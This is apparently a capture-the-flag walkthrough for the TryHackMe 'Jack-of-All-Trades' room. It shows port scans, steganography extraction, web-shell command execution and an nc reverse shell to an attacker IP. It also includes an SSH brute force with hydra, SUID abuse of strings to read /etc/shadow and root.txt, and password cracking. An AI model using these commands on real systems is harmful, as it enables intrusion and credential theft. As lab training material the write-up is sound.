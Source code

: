 # Jack-of-All-Trades

**Room Link:** [https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)



### Initial Scan

For some reason they switched port 22 with http site and 80 with ssh

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/22 - HTTP

```
gobuster dir -u http://$VICTIM:22 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

Had to all the override to see the site on port 22 in firefox



<figure><img src="../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

There is a stegosaurus picture on the home page so it is hinting that there's something in one of the pictures, eventually we find jackinthebox username and password in one of the pictures.

**Kali**

```
steghide extract -sf stego.jpg 
Password: u?WtKSraq

steghide extract -sf header.jpg  
Password: u?WtKSraq
```

<figure><img src="../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

If you run a command like this you can't see the results unless you view the source.

**Browser**

```
view-source:http://10.10.227.153:22/nnxhweOV/index.php?cmd=whoami
```

<figure><img src="../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
nc -lvnp 1337
```

**Browser**

```
view-source:http://10.10.227.153:22/nnxhweOV/index.php?cmd=nc%20-c%20sh%2010.10.154.80%201337
```

<figure><img src="../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



In the home directory there is a password list, it's small enough so I copied and pasted into a file on Kali.

<figure><img src="../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -s 80 -l jack -P passwords.txt $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jack@$VICTIM -p 80
Password: ITMJpGGIqg1jn?>@
```

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>



## PSPY

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

<pre><code><strong>cd /tmp
</strong><strong>wget http://$KALI:81/pspy32 
</strong>chmod +x pspy32 
./pspy32 
</code></pre>



Strings as the  SUID-bit set which means we can run it against files we normally wouldn't be able to read. I tried getting roots password but it was taking too long.

**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
/usr/bin/strings /etc/shadow
/usr/bin/strings /etc/passwd
```

**Kali**

```
unshadow passwd shadow > passwords.txt 
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

I just ended up using strings to read the root.txt

**Kali**

```
/usr/bin/strings /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>























